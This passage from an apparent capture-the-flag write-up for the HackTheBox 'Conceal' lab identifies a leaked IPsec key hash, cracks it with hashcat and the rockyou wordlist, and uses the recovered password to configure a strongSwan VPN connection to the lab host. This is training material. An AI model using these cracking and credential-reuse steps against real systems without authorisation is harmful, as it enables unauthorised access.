 It seems like there is an IPsec PSK value that is `9C8B1A372B1878851BE2C097031B6E43`? This seems like a hash... Try to ID the type:

```bash
echo '9C8B1A372B1878851BE2C097031B6E43' > ipsec.hash
hashid ipsec.hash
```

Of the results, it seems like the likely candidates are MD5 or NTLM. Try cracking both:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 1000 -a 0 --quiet --potfile-disable ipsec.hash rockyou.txt
hashcat -m 0    -a 0 --quiet --potfile-disable ipsec.hash rockyou.txt
```

![hash1](./conceal/hash1.png)

It seems like the hash _may_ be NTLM with the value `Dudecake1!`. Try connecting:

- https://github.com/hwdsl2/setup-ipsec-vpn/blob/master/docs/clients.md
- https://wiki.strongswan.org/projects/strongswan/wiki/UserDocumentation
- **NOTE:** The `rightprotoport` and `leftprotoport` being `tcp` is important since the target is only applying IPsec for TCP and not UDP since SNMP works!
- The encryption parameters for the connection come from the output of the `ike-scan`

```bash
# setup connection details
cat >> ipsec.conf << EOF
conn conceal-htb
  type=transport
  keyexchange=ikev1
  right=10.10.10.116
  authby=psk
  rightprotoport=tcp
  leftprotoport=tcp
  esp=3des-sha1
  ike=3des-sha1-modp1024
  auto=start
EOF
echo '10.10.10.116 : PSK "Dudecake1!"' >> /etc/ipsec.secrets # run as root
# start connection
sudo ipsec start --debug --conf $(pwd)/ipsec.conf --nofork
```

And this connects!
